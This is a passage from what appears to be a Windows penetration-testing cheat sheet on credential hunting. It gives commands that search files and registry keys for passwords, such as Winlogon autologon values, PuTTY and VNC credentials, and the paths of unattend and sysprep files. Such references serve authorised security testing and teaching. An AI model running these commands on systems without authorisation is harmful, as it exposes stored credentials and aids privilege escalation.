 
### Search for file contents

```powershell
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*
```

### Search for a file with a certain filename

```powershell
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini
```

### Search the registry for key names and passwords

```powershell
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Read a value of a certain sub key

```powershell
REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList
```

### Passwords in unattend.xml

Location of the unattend.xml files.

```powershell
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

Display the content of these files with `dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul`.
